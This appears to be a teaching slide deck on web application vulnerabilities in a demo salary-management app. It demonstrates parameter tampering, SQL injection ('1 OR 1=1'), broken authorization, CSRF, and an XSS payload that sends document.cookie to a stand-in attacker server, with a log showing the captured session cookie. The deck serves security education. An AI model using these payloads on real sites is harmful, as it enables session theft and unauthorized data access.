 !SLIDE bullets incremental small
## Exploits ##
* > Piece of *software*, a *chunk of data*, or *sequence of commands*
* > that *takes advantage* of a *bug*, *glitch or vulnerability*  
* > in order to *cause* *unintended behavior* to occur on computer software, hardware, or something electronic.

!SLIDE bullets incremental small
## ... ##
* > Includes such things as *gaining control* of a computer system or 
* > allowing *privilege escalation* or a *denial of service attack*.

!SLIDE
### Parameter Manipulation ##
	@@@ html
	<form accept-charset="UTF-8" action="/users" method="post">
	<input id="user_email" name="user[email]" size="30" type="text" value="" />
	<input id="user_password" name="user[password]" size="30" type="password" />
	<input type="submit" value="Create" />
	</form>


!SLIDE full-page
![http://yuml.me/7635ae77](class_diagram.png)


!SLIDE
    @@@ html
    <select id="user_role_id" name="user[role_id]">


!SLIDE full-page
![Here we see a tamper data screenshot ...](tamper1.png)


!SLIDE full-page
![Here we see an admin saved screenshot ...](admin_saved.png)


!SLIDE bullets incremental
### SQL Injection ###
* What *address* is *search* going through ...
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1000.00**
* *Testing the waters*
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1'**


!SLIDE full-page
![Here we see an admits injection screenshot ...](admits_injection.png)


!SLIDE bullets incremental
* Lets modify the query string
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1+OR+1%3D1**
* *Surprise!*


!SLIDE full-page
![Here we see an succesful attack screen ...](raises1.png)


!SLIDE bullets incremental
### Broken Authorization ###
* Parts/resouces of our application are usually restricted to different users
* Some times logic behind access is flawed


!SLIDE bullets incremental
* Following with last example security flaw
* Are we able to delete someone else raise petition?


!SLIDE full-page
![Here we see an succesful attack screen ...](raises2.png)


!SLIDE bullets incremental small
### Cross-Site Scripting ###
* > Type of computer security *vulnerability* typically found in *web* applications 
* > that *enables* malicious attackers to *inject client-side script* into web pages viewed by other users.


!SLIDE bullets incremental
### Harming script ###
* &lt;script&gt;document.write('*&lt;img src="http://localhost:80/*' + **document.cookie** + '"* &gt;*')&lt;/script&gt;


!SLIDE full-page
![Here we see an succesful attack screen ...](xss1.png)


!SLIDE full-page
![Here we see an succesful attack screen ...](xss2.png)


!SLIDE full-page
![Here we see an succesful attack screen ...](xss3.png)


!SLIDE
    @@@ html
    <tr>
      <td><a href="/users/2">poor@test.com</a></td>
      <td><script>document.write('<img src="http://localhost:80/' + document.cookie + '" >')</script></td>
      <td>Employee</td>
      <td>5.0</td>
      <td>
        <a href="/users/2">Show</a>
        |
        <a href="/users/2/edit">Edit</a>
        |
        <a href="/users/2" data-confirm="Are you sure?" data-method="delete" rel="nofollow">Destroy</a>
      </td>
    </tr>


!SLIDE commandline incremental
### If this were the attacker server ###
    $ tail -f /var/log/apache2/error.log 
    [Wed Oct 06 13:40:39 2010] [error] [client 127.0.0.1] 
    File does not exist: /var/www/_salary-manager_session
    =BAh7CCIQX2NzcmZfdG9rZW4iMWhhNHZRUW0zRVRSZUQ3TlI3dXFI
    NzQ3NFIwYm1FMGJhYXpNYXV4N0FpdFU9Ig9zZXNzaW9uX2lkIiVjN
    GQyYjcwMmE5OWYxNDlmYzYyNzliYjlkNTBlZDUxMSIZd2FyZGVuLn
    VzZXIudXNlci5rZXlbByIJVXNlcmkG--f5fd5e5103ee0d723d616
    f130f934c6ef5b33e2b


!SLIDE bullets incremental small
### Cross-Site Request Forgery ###
* > Also known as a *one-click attack* or *session riding* and abbreviated as CSRF or XSRF
* > Type of *malicious exploit* of a website whereby *unauthorized commands* are *transmitted from* a user that the *website trusts*.

!SLIDE bullets incremental
### XSS vs CSRF ###
* *XSS* exploits the trust a *client* has *for* a *site*
* *CSRF* exploits the trust a *site* has for a *client*
